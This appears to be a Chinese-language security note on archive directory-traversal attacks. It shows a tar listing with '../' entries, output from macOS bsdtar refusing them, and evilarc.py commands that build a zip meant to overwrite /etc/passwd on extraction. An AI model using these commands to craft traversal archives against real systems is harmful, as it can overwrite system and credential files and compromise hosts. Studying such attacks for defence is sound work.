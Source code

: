 
查看压缩文件详情

```
# 查看压缩文件详情的命令
7z l 1.tar
```

```
7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=utf8,Utf16=on,HugeFiles=on,64 bits,8 CPUs x64)

Scanning the drive for archives:
1 file, 10240 bytes (10 KiB)

Listing archive: 1.tar

--
Path = 1.tar
Type = tar
Physical Size = 10240
Headers Size = 7680
Code Page = UTF-8

   Date      Time    Attr         Size   Compressed  Name
------------------- ----- ------------ ------------  ------------------------
2019-05-12 12:39:36 .....            7          512  ../admin/manage/testfile
2019-01-13 17:40:49 .....          686         1024  ../../admin/Bdir/222
2019-01-12 19:19:22 .....          726         1024  111
------------------- ----- ------------ ------------  ------------------------
2019-05-12 12:39:36               1419         2560  3 files
```

解压

(bsdtar 2.8.3 - libarchive 2.8.3)

用mac自带的tar进行解压 `tar -xvf 1.tar` 结果显示如下

```
x ../admin/manage/testfile: Path contains '..'
x ../../admin/Bdir/222: Path contains '..'
x 111
tar: Error exit delayed from previous errors.
```

实际只有文件111是解压成功的，而同一压缩包的其他两个文件因为文件名包含了`..`而解压失败.(tar默认是禁止提取 文件名包含了`..`的文件)

#### 构造压缩文件的过程 - zip文件解压特殊文件名实现目录穿越

覆盖`/etc/passwd`文件 前提 有root权限
```
# 将passwd文件放到压缩包中 目录为../etc/passwd
python evilarc.py passwd --os=unix --depth=1 --path etc --output-file=1.zip
python evilarc.py passwd --os=unix --depth=2 --path etc --output-file=1.zip
python evilarc.py passwd --os=unix --depth=3 --path etc --output-file=1.zip
...
```
